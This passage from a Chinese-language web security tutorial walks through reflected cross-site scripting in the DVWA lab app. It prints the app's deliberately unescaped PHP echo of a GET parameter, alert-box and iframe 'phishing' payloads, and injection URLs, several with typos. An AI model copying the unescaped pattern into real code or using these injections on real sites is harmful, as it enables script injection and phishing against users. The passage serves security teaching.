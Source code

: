 返回的结果是这样的：

![image-20230507133313903](D:\Document\My_book\My_Books\钟全龙著\img\image-20230507133313903.png)

成功的返回了我们注入的信息，说明该网站没有对网站进行过滤，让我们有机可乘

> **注意：在javascript中，alert的用法是“alert(在对话框中显示的纯文本)”。alert方法用于显示带有一条指定消息和一个OK按钮的警告框，可以用来向用户警示信息，也可以用来调试程序。**

看看网站的源码来进行分析：

```php
<?php

header ("X-XSS-Protection: 0");

// Is there any input?
if( array_key_exists( "name", $_GET ) && $_GET[ 'name' ] != NULL ) {
    // Feedback for end user
    echo '<pre>Hello ' . $_GET[ 'name' ] . '</pre>';
}

?> 
```

这里很明显，没有进行关键字或其他敏感字符的过滤，就只是一个简单的获取数据，执行操作

```javascript
<script>alert('doucument.cookie')</script>
```

![image-20230507134113274](D:\Document\My_book\My_Books\钟全龙著\img\image-20230507134113274.png)

使用xss漏洞访问其他网站**（钓鱼）**

```javascript
<iframe src="https://www.cvedetails.com/index.php" name="iframe a" width=1500px" height= "9000px'"> <iframe>/iframe
```

![image-20230507135330782](D:\Document\My_book\My_Books\钟全龙著\img\image-20230507135330782.png)

此时网站上出现了新的也买你，像不像流氓广告？

还可以利用URL进行注入，因为URL地址栏也是一个可以输入的地址栏

```
URL编码注入：
http://192.168.8.121/dvwa/DVWA-master/vulnerabilities/xss_r/?name=%3Cscrpit%3Ealert%28%27Hello%20World%27%29%3C/script%3E
```

![image-20230507135953677](D:\Document\My_book\My_Books\钟全龙著\img\image-20230507135953677.png)

```
直接注入：
http://192.168.8.121/dvwa/DVWA-master/vulnerabilities/xss_r/?name=<scrpit>alert('Hello World')</script>
```
